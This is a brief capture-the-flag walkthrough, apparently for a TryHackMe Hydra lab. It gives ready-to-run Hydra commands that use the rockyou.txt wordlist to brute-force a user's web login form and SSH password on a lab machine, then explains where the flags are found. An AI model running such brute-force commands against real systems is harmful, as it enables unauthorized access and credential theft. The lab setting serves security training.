 # Day 1: Hydra

## [Challenge 1](#challenge-1-using-hydra-to-brute-force-Mollys-web-password) | [Challenge 2](#challenge-2-using-hydra-to-brute-force-Mollys-ssh-password)

Kali comes with Hydra so we don't have to install anything.

Like always, we should see what services are running.\
![nmap](https://i.imgur.com/gKddkd6.png)

Here is the web site we're going to brute force lol.\
![santa bum](https://i.imgur.com/SDevpZY.png)

They tell us that we can use rockyou.txt as the dictionary.

Here is some supporting material to look through:\
<https://blog.tryhackme.com/hydra/>\
<https://en.kali.tools/?p=220>

## Challenge 1: Using Hydra to brute force Molly's web password

THIS WILL TAK A LONG TIME, I THINK 900k-1MIL ATTEMPTS
DO THE SSH CHALLENGE FIRST THEN THIS

You can see what method is being used in the source code.\
![post](https://i.imgur.com/vnoMnH9.png)\
We need to make sure we are using `http-post-form` protocol.

`hydra -l molly -P /usr/share/wordlists/rockyou.txt <ip> http-post-form "/<login url>:username=^USER^&password=^PASS^:F=incorrect" -V`

While this was running in the background and after the SSH challenge, I did some looking around the ssh server with Molly's credentials, and found the answer another way!

In `/home/ubuntu/elf/` is your flag.

## Challenge 2: Using Hydra to brute force Molly's ssh password

This will get you what you're looking for.

`hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.170.16 -t 4 ssh -V`

And when you login with her credentials you will see the flag.

